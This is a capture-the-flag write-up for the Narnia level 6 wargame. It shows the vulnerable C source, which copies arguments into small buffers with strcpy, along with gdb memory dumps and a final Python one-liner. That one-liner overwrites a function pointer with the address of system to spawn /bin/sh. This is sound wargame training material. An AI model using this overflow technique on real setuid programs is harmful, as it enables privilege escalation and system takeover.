 ```C
int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;

	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));

	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	setreuid(geteuid(),geteuid());
    fp(b1);

	exit(1);
}
```
The vulnerability is obviously in `strcpy` function that allows us to copy from argv to b1 and b2 arrays.

So after few attempts I realized that I can, for some reason, overwrite the fp function pointer.
In gdb I realized that the b2 array, which correspond to argv[2], can overwrites in some way fp pointer.

Let's explore what happens in gdb:

0xffffd5e8:	0x62626262	0x62626262
0xffffd5f0:	0x61610062	0x61616161	0x08040061 -> it's fp pointer overflowed by one 'a'


We can overwrite fp pointer with the address of system function, but what about `/bin/sh` string?
 
We have to put it somewhere in the stack - or we can find it typically in libc(but the address includes some \x00 byte and we cannot pass that as arguments directly).
So I revert the attack and I decided that, for simplicity, b2 will overwrite the stack frames with what I need to hijack the execution.
So after some try I overwrite fp with address of `system` and as arguments I place `/bin/sh;`.
Note that `;`, that's because I cannot put string terminator `\x00` at the end of the string because it will be ignored.
So recall to the fact that ; enables command concatenation I call system for two command: `/bin/sh` as first command and "SOMESHITTYHEX" as second command.
That's work!

```bash
$ ./narnia6 $(python -c 'print "a"*4+" "+"/bin/sh;"*2+"\x40\x19\xe5\xf7"')
```
